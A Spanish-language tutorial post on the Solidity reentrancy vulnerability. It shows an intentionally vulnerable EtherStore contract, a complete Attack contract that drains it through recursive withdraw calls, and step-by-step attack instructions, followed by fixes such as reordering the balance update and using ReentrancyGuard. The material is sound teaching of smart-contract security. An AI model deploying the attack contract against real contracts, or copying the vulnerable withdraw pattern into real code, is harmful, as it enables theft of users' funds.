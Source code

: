 ```yaml
---
title: 'Solidity: Ataque Reentrancy'
description: 'Uno de los problemas de seguridad más comunes es el denominado Reetrancy que provoca llamadas recursivas a una misma función de un contrato hasta vaciar los fondos del mismo.'
image: '/tech/solidity.webp'
pubDate: '06/01/2023'
englishMetadata: {
  title: 'Solidity: Reetrancy Attack',
  description: 'One of the most common security problems is called Reetrancy, which causes recursive calls to the same function of a contract until the funds are emptied.'
}
prev: 'solidity-dos-attack'
next: 'solidity-cross-reentrancy-attack'
---
```


# Solidity: Ataque Reentrancy

**El depósito y retiro de ETH en un contrato** por parte de un usuario **puede exponer vulnerabilidades** si los mismos no se realizan de la forma correcta.

## Reentrada de transacciones

Uno de los problemas de seguridad más comunes es el denominado **Reetrancy** que provoca llamadas recursivas a una misma función de un contrato hasta vaciar los fondos del mismo.

Veamos de qué se trata esta vulnerabilidad y cómo prevenirla a través de un simple ejemplo:

### Explicación del contrato vulnerado

Utilizaremos de ejemplo un contrato inteligente que permite depositar y retirar ETH. Cada dirección solo puede retirar sus propios fondos, pero la vulnerabilidad permitirá que un atacante se quede con todos los fondos.

> **NOTA:** El ejemplo de esta vulnerabilidad fue tomado y adaptado originalmente de [Solidity by examples](https://solidity-by-example.org/hacks/re-entrancy/).

### Contratos involucrados

Comencemos con el contrato principal que contiene la lógica de negocios para el depósito y retiro de Ether.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract EtherStore {
  mapping(address => uint) public balances;

  // Deposito de ETH
  function deposit() public payable {
    balances[msg.sender] += msg.value;
  }

  // Retiro de ETH
  function withdraw() public {
    uint monto = balances[msg.sender];
    require(monto > 0);

    (bool sent, ) = msg.sender.call{value: monto}("");
    require(sent, "El envio de ETH ha fallado.");
    balances[msg.sender] = 0;
  }

  // Funciona auxiliar para visualizar el balance total del contrato
  function getBalance() public view returns (uint) {
    return address(this).balance;
  }
}
```

Por otro lado, el contrato atacante. Presta atención a la función `receive()` que es la vía por la cual se genera la recursividad y permite el robo de todos los fondos.

```js
contract Attack {
  EtherStore public etherStore;

  constructor(address _etherStoreAddress) {
    // Creamos la instancia de EtherStore.
    etherStore = EtherStore(_etherStoreAddress);
  }

  // Función receive() es llamada cuando EtherStore envia ETH a este contrato.
  receive() external payable {
    // Al retirar el primer ETH, EtherStore lo enviará a este hook que vuelve a llamar a withdraw de forma recursiva
    if (address(etherStore).balance >= 1 ether) {
      etherStore.withdraw();
    }
  }

  // El ataque consiste en depositar 1 ETH e inmediatamente retirarlo
  function attack() external payable {
    require(msg.value >= 1 ether);
    etherStore.deposit{value: 1 ether}();
    etherStore.withdraw();
  }

  // Funciona auxiliar para visualizar el balance total del contrato.
  function getBalance() public view returns (uint) {
    return address(this).balance;
  }
}
```

### Procedimiento para vulnerar el contrato

1. Desplegar el contrato `EtherStore`.
2. Depositar 1 ETH con dos cuentas. Hasta este punto, el contrato tendría 2 ETH.
3. Desplegar contrato `Attack` que recibe en el constructor la dirección de `EtherStore`.
4. Hacer el llamado a `Attack.attack` enviando 1 ETH con una tercera cuenta para tener acceso a realizar una extracción. El contrato atacante recibirá los 3 ETH.

### ¿Qué sucedió aquí?

`Attack` llamó a `EtherStore.withdraw` múltiples veces antes de que `EtherStore.withdraw` finalice su ejecución.

**Así es el orden de llamados de las funciones:**
- `Attack.attack`
- `EtherStore.deposit`
- `EtherStore.withdraw`
- `Attack.receive()` (recibes 1 ETH)
- `EtherStore.withdraw`
- `Attack.receive()` (recibes 1 ETH)
- `EtherStore.withdraw`
- `Attack.receive()` (recibes 1 ETH)

### ¿Por qué sucedió?

Al realizarse las llamadas de forma recursiva, **el balance de la cuenta del atacante nunca llega a 0** y, por lo tanto, permite seguir haciendo retiros. Observa que el balance de la cuenta del contrato atacante se setea a 0 recién en la última línea de código de la función `withdraw()`.

```js
function withdraw() public {
    uint monto = balances[msg.sender];
    require(monto > 0);
    (bool sent, ) = msg.sender.call{value: monto}("");
    require(sent, "El envio de ETH ha fallado.");
    balances[msg.sender] = 0;
}
```

### ¿Cómo se puede evitar?

Hay al menos tres medidas que puedes tomar para evitar este enorme problema de seguridad.

1. El primero es **mover el seteo del balance a 0 antes del llamado a la función externa**.

```js
function withdraw() public {
  uint monto = balances[msg.sender];
  require(monto > 0);

  balances[msg.sender] = 0;   // Seteo del balance antes del 'msg.sender.call'

  (bool sent, ) = msg.sender.call{value: monto}("");
  require(sent, "El envio de ETH ha fallado.");
}
```
Corresponde setear a 0 el balance de la cuenta que retira sus fondos antes de realizar el llamado externo. En el caso de que el llamado falle por otro motivo, no te preocupes, ya que el `require()` hará un `revert()` y los balances volverán a como estaban antes del fallo.

2. También puedes **setear el uso del gas en la llamada externa**.

```js
(bool sent, ) = msg.sender.call{value: monto, gas: 10000}("");
```
Siempre es aconsejable configurar el gas disponible para un llamado externo

3. Otra forma de solucionar esta vulnerabilidad es con **un modificador que valide que la función no se esté llamando de forma recursiva**. Afortunadamente, [OpenZeppelin ya tiene un contrato auditado y seguro](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/security/ReentrancyGuard.sol) para solventar este problema.

```js
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract EtherStore is ReentrancyGuard {
  // ...

  function withdraw() public nonReentrant {
    // ...
  }
}
```

## Conclusión

Has visto hasta aquí la exigencia de desarrollar un contrato inteligente que administre correctamente fondos. Un simple cambio de orden en la lógica de un contrato puede causar perdidas millonarias. Claro que ya las ha causado y, por este motivo, **Reentrancy** es una vulnerabilidad bien conocida que debes prevenir estudiando su funcionamiento y escribiendo código de forma segura.

---
Post creado en colaboración con el [Curso de Introducción a Seguridad de Smart Contracts](https://platzi.com/clases/2721-seguridad-smart-contracts/45718-denegacion-por-reversion/) de **Platzi**.
